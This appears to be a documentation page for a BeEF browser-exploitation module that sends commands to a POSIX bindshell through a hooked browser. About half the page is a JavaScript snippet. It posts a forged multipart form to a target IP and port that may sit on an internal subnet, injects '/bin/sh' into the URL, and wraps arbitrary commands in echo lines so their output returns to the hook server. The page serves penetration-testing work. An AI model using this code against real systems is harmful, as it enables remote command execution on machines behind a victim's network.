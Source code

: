 ## Summary

* **Objective**: Execute command on a POSIX/UNIX bindshell
* **Authors**: bcoles, wade
* **Browsers**: Firefox

* [Code](https://github.com/beefproject/beef/tree/master/modules/ipec/inter_protocol_posix_bindshell)

## Internal Working

Using Inter-protocol Exploitation/Communication (IPEC) the hooked browser will send commands to a listening POSIX shell bound on the target specified in the 'Target Address' input field.

The target address can be on the hooked browser's subnet which is potentially not directly accessible from the Internet.

This module uses commands on the POSIX shell such as `/bin/sh` and `echo` to craft a valid HTTP response that can be parsed correctly by the BeEF hook server.

```js

var action = "http://" + ip + ":" + port + "/index.html?&/bin/sh;";
var parent = window.location.href;

// create form
myform=document.createElement("form");
myform.setAttribute("name","data");
myform.setAttribute("method","post");
myform.setAttribute("enctype","multipart/form-data");
myform.setAttribute("action",action);
document.getElementById("ipc_posix_window_<%= @command_id %>").contentWindow.document.body.appendChild(myform);

body1="<html><body><div id='ipc_content'>";
body2="__END_OF_POSIX_IPC<%= @command_id %>__</div><s"+"cript>window.location='"+parent+"#ipc_result='+encodeURI(document.getElementById(\\\"ipc_content\\\").innerHTML);</"+"script></body></html>";

// post results separator
myExt = document.createElement("INPUT");
myExt.setAttribute("id",<%= @command_id %>);
myExt.setAttribute("name",<%= @command_id %>);
myExt.setAttribute("value","echo -e HTTP/1.1 200 OK\\\\r;echo -e Content-Type: text/html\\\\r;echo -e Content-Length: "+(body1.length+cmd.length+body2.length+size*1)+"\\\\r;echo -e Keep-Alive: timeout=5,max=100\\\\r;echo -e Connection: keep-alive\\\\r;echo -e \\\\r;echo \""+body1+"\";(" + cmd + ")|head -c "+size+" ; ");
myform.appendChild(myExt);


```


## References

Some ports are restricted in newer versions of Chrome-like browsers and Firefox
e.g. (21,22,23,25,513 etc.)
https://e1tips.com/2014/03/17/allow-firefox-chrome-to-access-restricted-ports/

## Feedback


